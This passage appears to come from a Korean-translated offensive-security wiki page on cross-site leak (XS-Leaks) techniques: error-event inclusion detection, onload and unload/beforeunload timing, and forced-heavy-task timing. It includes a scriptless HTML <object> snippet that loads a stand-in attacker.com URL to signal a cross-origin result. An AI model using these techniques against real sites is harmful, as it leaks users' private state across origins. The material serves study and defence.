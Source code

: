 코드 예제는 **JS에서 스크립트 객체를 로드하려고 시도하지만**, **객체**, 스타일시트, 이미지, 오디오와 같은 **다른 태그**도 사용할 수 있습니다. 또한, **태그를 직접 주입하고** 태그 내부에 `onload` 및 `onerror` 이벤트를 선언하는 것도 가능합니다(대신 JS에서 주입하는 대신).

이 공격의 스크립트 없는 버전도 있습니다:
```html
<object data="//example.com/404">
<object data="//attacker.com/?error"></object>
</object>
```
In this case if `example.com/404` is not found `attacker.com/?error` will be loaded.

### Onload Timing

* **Inclusion Methods**: HTML 요소
* **Detectable Difference**: 타이밍 (일반적으로 페이지 내용, 상태 코드로 인한)
* **More info**: [https://xsleaks.dev/docs/attacks/timing-attacks/network-timing/#onload-events](https://xsleaks.dev/docs/attacks/timing-attacks/network-timing/#onload-events)
* **Summary:** The [**performance.now()**](https://xsleaks.dev/docs/attacks/timing-attacks/clocks/#performancenow) **API**는 요청을 수행하는 데 걸리는 시간을 측정하는 데 사용될 수 있습니다. 그러나 [**PerformanceLongTaskTiming API**](https://developer.mozilla.org/en-US/docs/Web/API/PerformanceLongTaskTiming)와 같은 다른 시계를 사용할 수 있으며, 이는 50ms 이상 실행되는 작업을 식별할 수 있습니다.
* **Code Example**: [https://xsleaks.dev/docs/attacks/timing-attacks/network-timing/#onload-events](https://xsleaks.dev/docs/attacks/timing-attacks/network-timing/#onload-events) 또 다른 예는:

{% content-ref url="performance.now-example.md" %}
[performance.now-example.md](performance.now-example.md)
{% endcontent-ref %}

#### Onload Timing + Forced Heavy Task

이 기술은 이전 기술과 유사하지만, **공격자**는 **긍정적 또는 부정적 응답**을 받을 때 **상당한 시간**이 걸리도록 **강제** 조치를 취하고 그 시간을 측정합니다.

{% content-ref url="performance.now-+-force-heavy-task.md" %}
[performance.now-+-force-heavy-task.md](performance.now-+-force-heavy-task.md)
{% endcontent-ref %}

### unload/beforeunload Timing

* **Inclusion Methods**: 프레임
* **Detectable Difference**: 타이밍 (일반적으로 페이지 내용, 상태 코드로 인한)
* **More info**: [https://xsleaks.dev/docs/attacks/timing-attacks/network-timing/#unload-events](https://xsleaks.dev/docs/attacks/timing-attacks/network-timing/#unload-events)
* **Summary:** The [SharedArrayBuffer clock](https://xsleaks.dev/docs/attacks/timing-attacks/clocks/#sharedarraybuffer-and-web-workers)는 요청을 수행하는 데 걸리는 시간을 측정하는 데 사용될 수 있습니다. 다른 시계를 사용할 수 있습니다.
* **Code Example**: [https://xsleaks.dev/docs/attacks/timing-attacks/network-timing/#unload-events](https://xsleaks.dev/docs/attacks/timing-attacks/network-timing/#unload-events)

리소스를 가져오는 데 걸리는 시간은 [`unload`](https://developer.mozilla.org/en-US/docs/Web/API/Window/unload\_event) 및 [`beforeunload`](https://developer.mozilla.org/en-US/docs/Web/API/Window/beforeunload\_event) 이벤트를 활용하여 측정할 수 있습니다. **`beforeunload`** 이벤트는 브라우저가 새 페이지로 이동하려고 할 때 발생하고, **`unload`** 이벤트는 실제로 이동이 이루어질 때 발생합니다. 이 두 이벤트 간의 시간 차이를 계산하여 **브라우저가 리소스를 가져오는 데 소요된 시간**을 결정할 수 있습니다.

### Sandboxed Frame Timing + onload <a href="#sandboxed-frame-timing-attacks" id="sandboxed-frame-timing-attacks"></a>

